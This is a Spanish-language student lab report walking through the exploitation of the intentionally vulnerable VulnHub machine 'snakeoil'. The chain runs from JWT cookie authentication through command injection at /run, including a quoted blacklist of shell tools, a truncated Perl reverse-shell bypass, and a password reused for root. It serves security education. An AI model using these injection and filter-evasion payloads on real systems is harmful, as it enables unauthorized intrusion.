Objetivo
El presente reporte documenta, de manera técnica y detallada, el desarrollo completo de la actividad “De la teoría a la práctica: walkthrough en acción”, cuyo objetivo general es demostrar la capacidad de aplicar conocimientos teóricos de seguridad informática en un entorno práctico y controlado, mediante la explotación exhaustiva de una máquina virtual intencionalmente vulnerable.
Para ello se utilizó la máquina digitalworld.local: snakeoil, disponible públicamente en la plataforma VulnHub (https://www.vulnhub.com/entry/digitalworldlocal-snakeoil,738/), la cual simula una aplicación web corporativa (“Good Tech Inc.”) construida con Python/Flask y protegida mediante autenticación basada en JSON Web Tokens (JWT). Todo el ejercicio se realizó en un entorno de virtualización completamente aislado (red Host-Only de VirtualBox), sin exposición a redes externas ni a Internet, con fines exclusivamente académicos y sin intención maliciosa.
A lo largo del documento se sigue la metodología estándar de un pentest: reconocimiento, enumeración, análisis de vulnerabilidades, explotación, post-explotación y escalada de privilegios, relacionando en cada etapa las técnicas empleadas con los fundamentos teóricos de la asignatura de Seguridad Informática (reconocimiento de superficie de ataque, control de acceso, criptografía aplicada a contraseñas, tokens de sesión, inyección de comandos y gestión de privilegios en sistemas Unix).
Desarrollo
Preparación del entorno de prueba
El primer paso consistió en construir un laboratorio de pruebas aislado utilizando Oracle VirtualBox, con dos máquinas virtuales: una máquina atacante (Kali Linux) y la máquina víctima (SNAKEOIL, basada en Debian). Ambas se configuraron con un adaptador de red del tipo Host-Only, lo cual crea una subred privada entre el equipo anfitrión y las máquinas virtuales, garantizando que ningún tráfico de la práctica saliera hacia la red real o Internet.

La víctima venía configurada por defecto en modo NAT, por lo que fue necesario modificar su adaptador de red a “Adaptador solo anfitrión”, usando el mismo adaptador virtual que la máquina atacante, para que ambas quedaran dentro de la misma subred aislada (192.168.56.0/24).


Reconocimiento (Reconnaissance)
Con ambas máquinas en la misma subred, el objetivo de esta fase fue identificar la dirección IP asignada a la máquina víctima. Se utilizó netdiscover para capturar tráfico ARP y listar los hosts activos en la red; comparando las direcciones MAC frente a la IP conocida de la máquina atacante, se determinó por descarte que la IP 192.168.56.102 correspondía a la víctima.

Una vez confirmada la IP objetivo, se ejecutó un escaneo completo de puertos con Nmap, incluyendo detección de versión y scripts básicos de enumeración (-sV -sC -p-), con el fin de mapear la superficie de ataque expuesta por la máquina.

Enumeración de servicios web
El puerto 80 únicamente mostró una página estática de bienvenida de nginx sin contenido explotable, por lo que se descartó como vector de ataque tras revisar su código fuente.

El puerto 8080, en cambio, alojaba una aplicación tipo blog/CMS construida en Flask, con publicaciones (“Introduction”, “House Rules”, “Useful Links”) y funcionalidades de edición y creación de contenido accesibles sin autenticación aparente, lo cual constituyó la primera señal de un posible control de acceso débil (Broken Access Control).

La publicación “Useful Links” resultó especialmente relevante: mencionaba explícitamente el uso de la librería flask-jwt-extended para la autenticación mediante JWT y enlazaba a su documentación oficial de configuración una pista deliberada del autor de la máquina hacia la superficie de ataque relacionada con tokens.

Para descubrir rutas y recursos no enlazados directamente desde la interfaz, se utilizó Gobuster con la wordlist dirb/common.txt y extensiones típicas de API (json, php), lo que permitió identificar endpoints adicionales como /users, /registration, /login, /run, /secret y /test.
gobuster dir -u http://192.168.56.102:8080/ -w /usr/share/wordlists/dirb/common.txt -x json,php
Análisis de vulnerabilidades
Exposición de información sensible en /users
Al consultar la ruta /users descubierta mediante Gobuster, la API devolvió en texto plano el nombre de usuario y el hash de la contraseña del administrador del sistema (patrick), en formato PBKDF2-SHA256 con 29 000 iteraciones. Este es un fallo clásico de exposición de información sensible (OWASP A01/A02): un endpoint de listado de usuarios nunca debería exponer, bajo ninguna circunstancia, el hash de las contraseñas.

Se intentó crackear este hash de forma offline utilizando John the Ripper contra las wordlists rockyou.txt y xato-net-10-million-passwords-1000000.txt de SecLists. Ambos intentos fueron infructuosos, lo cual, en retrospectiva, era el comportamiento esperado: al usar PBKDF2 con un número elevado de iteraciones, el costo computacional por intento es alto y la contraseña real no correspondía a ninguna wordlist de diccionario común.
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Control de acceso roto en el registro de usuarios
La ruta /registration, aunque inicialmente rechazaba peticiones GET, aceptaba peticiones POST sin ningún tipo de restricción ni verificación adicional, permitiendo crear libremente una cuenta propia y obtener de inmediato un token de acceso (access_token) válido. Esto confirmó que el sistema de autenticación no distinguía entre usuarios legítimos y usuarios recién registrados por un atacante.

Explotación
Análisis del token JWT
Con un access_token y un refresh_tokens válidos en mano, se procedió a decodificar el JWT con la herramienta jwt_tool para inspeccionar su cabecera y contenido. El token utilizaba el algoritmo HS256 (firma simétrica) y un campo fresh: false, propio de la librería flask-jwt-extended para distinguir tokens recién emitidos por login (fresh) de tokens renovados por refresco.

Se exploraron varias vías de ataque contra el JWT fuerza bruta de la clave de firma (jwt_tool y John con 14 millones de contraseñas, sin éxito) y el clásico ataque de suplantación mediante algoritmo “none” ninguna prosperó, lo cual evidenció una configuración robusta de la librería frente a ese vector específico.

Descubrimiento de la clave interna mediante autenticación por cookie
La pista dejada en la publicación “Useful Links” resultó decisiva: la documentación de flask-jwt-extended permite transportar el JWT mediante cookies HTTP en lugar de la cabecera Authorization. Al reenviar un token recién generado como cookie access_token_cookie, el endpoint /secret que hasta entonces devolvía un error 500 constante respondió exitosamente, revelando una clave interna del sistema.

SSRF y ejecución remota de comandos (RCE) en /run
El endpoint /run, protegido por la secret_key recién obtenida, resultó ser una puerta trasera (“backdoor”) que ejecutaba internamente el comando curl contra la URL proporcionada por el usuario mediante subprocess.Popen con shell=True. Esto constituye simultáneamente una vulnerabilidad de tipo SSRF (Server-Side Request Forgery, ya que permite hacer peticiones desde el propio servidor hacia direcciones internas como 127.0.0.1) y de Inyección de Comandos del Sistema Operativo (OS Command Injection), al concatenar directamente la entrada del usuario dentro de una cadena de shell.
El backend implementaba una lista negra de palabras prohibidas (bash, python, /dev/tcp, nc, mkfifo, php) para impedir la obtención de una shell reversa. Sin embargo, esta lista no contemplaba el intérprete Perl, por lo que fue posible evadir el filtro utilizando un one-liner de Perl encapsulado entre backticks para forzar la ejecución de comandos arbitrarios en el servidor.
curl -s -X POST http://192.168.56.102:8080/run \
--cookie "access_token_cookie=$(cat jwt.txt)" \
-H "Content-Type: application/json" \
-d '{"url":"127.0.0.1:22`perl -e '"'"'use Socket;...'"'"'`","secret_key":"commandexecutionissecret"}'

Post-explotación
La shell reversa obtenida correspondía directamente al usuario del sistema operativo patrick (no a un usuario de aplicación con privilegios limitados), ya que el proceso de la aplicación Flask se ejecutaba con esa identidad. Al consultar los privilegios de sudo disponibles, se encontró la entrada (ALL : ALL) ALL, es decir, patrick puede ejecutar cualquier comando como cualquier usuario incluido root siempre que proporcione su contraseña.

Dado que la contraseña del sistema operativo no era conocida y los intentos triviales fallaron, s e procedió a inspeccionar el código fuente completo de la aplicación (app.py, models.py, resources.py), disponible directamente en el sistema de archivos gracias al acceso ya obtenido.

Una búsqueda dirigida con grep sobre los archivos fuente permitió localizar la variable de configuración JWT_SECRET_KEY, cuyo valor una frase con capitalización particular que incluye literalmente la palabra “PASSWORD” resultó ser, además de la clave de firma de los tokens, la contraseña real del usuario patrick en el sistema operativo.
grep -ri "password" /home/patrick/flask_blog/*.py
Escalada de privilegios
Utilizando la cadena NOreasonableDOUBTthisPASSWORDisGOOD como contraseña de patrick, se ejecutó sudo su, obteniendo una shell interactiva con privilegios de superusuario (root). Este hallazgo evidencia una mala práctica crítica de seguridad: la reutilización de una misma credencial entre distintos propósitos (clave criptográfica de una aplicación y contraseña de acceso al sistema operativo), que en este caso permitió escalar de un acceso remoto no autenticado a control total del servidor.
sudo su
[sudo] password for patrick: NOreasonableDOUBTthisPASSWORDisGOOD

Video
Video sobre la practica de: De la teoría a la práctica: walkthrough en acción. El cual presenta de manera técnica y detallada, el desarrollo completo de la actividad “De la teoría a la práctica: walkthrough en acción”, cuyo objetivo general es demostrar la capacidad de aplicar conocimientos teóricos de seguridad informática en un entorno práctico y controlado, mediante la explotación exhaustiva de una máquina virtual intencionalmente vulnerable.
Video 1. Video sobre la practica de: De la teoría a la práctica: walkthrough en acción. El cual presenta de manera técnica y detallada, el desarrollo completo de la actividad “De la teoría a la práctica: walkthrough en acción”, cuyo objetivo general es demostrar la capacidad de aplicar conocimientos teóricos de seguridad informática en un entorno práctico y controlado, mediante la explotación exhaustiva de una máquina virtual intencionalmente vulnerable.
Resultados
La siguiente tabla resume, en orden cronológico, la cadena completa de vulnerabilidades explotadas para lograr el compromiso total de la máquina SNAKEOIL:
| Fase | Vulnerabilidad | Herramienta | Resultado |
|---|---|---|---|
| Reconocimiento | Escaneo de puertos y servicios | Nmap | Puertos 22, 80 y 8080 identificados |
| Enumeración | Descubrimiento de rutas ocultas | Gobuster | Endpoints de API expuestos (/users, /run, /secret, etc.) |
| Análisis | Exposición de información sensible | curl | Hash de contraseña de patrick filtrado (no explotado) |
| Análisis | Control de acceso roto (registro libre) | curl | Creación de cuenta y JWT propio sin restricciones |
| Explotación | Autenticación JWT por cookie no documentada en UI | curl (--cookie) | Revelación de secret_key interna |
| Explotación | SSRF + Inyección de comandos (evasión de filtro) | Perl / curl | Ejecución remota de comandos (RCE) |
| Post-explotación | Análisis de código fuente en el servidor | grep / cat | Contraseña real de patrick localizada |
| Escalada | Reutilización de credenciales / sudo (ALL:ALL) ALL | sudo su | Acceso root completo al sistema |
Como evidencia final del compromiso total del sistema, se obtuvo acceso de superusuario y se leyó el archivo de confirmación ubicado en /root/proof.txt, cuyo contenido acredita la finalización exitosa del reto: “Congratulations on obtaining a root shell on this machine! :-)”.
Conclusión
Este ejercicio permitió aplicar de manera integral la metodología de pentesting vista en la asignatura de Seguridad Informática, recorriendo cada una de sus fases reconocimiento, enumeración, análisis de vulnerabilidades, explotación, post-explotación y escalada de privilegios sobre un objetivo realista que combinó múltiples categorías de fallos: exposición de información sensible, control de acceso roto, configuración insegura de autenticación (JWT por cookie no documentada en la interfaz), SSRF, inyección de comandos del sistema operativo y, finalmente, reutilización de credenciales entre un componente de aplicación y el sistema operativo subyacente.
El hallazgo más significativo, desde una perspectiva formativa, fue comprobar en la práctica cómo una sola mala decisión de diseño usar la misma cadena como clave criptográfica de una aplicación y como contraseña de un usuario del sistema puede convertir una vulnerabilidad de aplicación web en un compromiso total de infraestructura. Asimismo, el proceso reforzó la importancia de la enumeración exhaustiva y de la lectura cuidadosa de las pistas contextuales (comentarios de blog, nombres de endpoints, mensajes de error) por encima de la fuerza bruta ciega, la cual, en varios tramos del ejercicio, resultó ineficaz frente a un análisis dirigido del código fuente disponible tras obtener el primer punto de apoyo (shell) en el sistema.
En síntesis, la actividad cumplió su objetivo general: demostrar, mediante evidencia técnica documentada paso a paso, la capacidad de trasladar conocimientos teóricos de seguridad ofensiva a un entorno práctico controlado, sin comprometer sistemas reales ni realizar actividades fuera del alcance autorizado del laboratorio.
Referencias bibliográficas
- Donavan. (2021). digitalworld.local: snakeoil [Máquina virtual]. VulnHub. https://www.vulnhub.com/entry/digitalworldlocal-snakeoil,738/
- Grinberg, M., Flask-JWT-Extended contributors. (2021). Configuration Options Flask-JWT-Extended documentation. https://flask-jwt-extended.readthedocs.io/en/stable/options/
- OWASP Foundation. (2021). OWASP Top 10:2021. https://owasp.org/Top10/
- OWASP Foundation. (s.f.). Server-Side Request Forgery Prevention Cheat Sheet. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- OWASP Foundation. (s.f.). OS Command Injection Defense Cheat Sheet. https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html
- jwt.io. (s.f.). Introduction to JSON Web Tokens. Auth0. https://jwt.io/introduction
- OffSec. (s.f.). Nmap Reference Guide. https://nmap.org/book/man.html
- OJ Reeves & Christian Mehlmauer. (s.f.). Gobuster [Software]. https://github.com/OJ/gobuster
- Openwall. (s.f.). John the Ripper password cracker. https://www.openwall.com/john/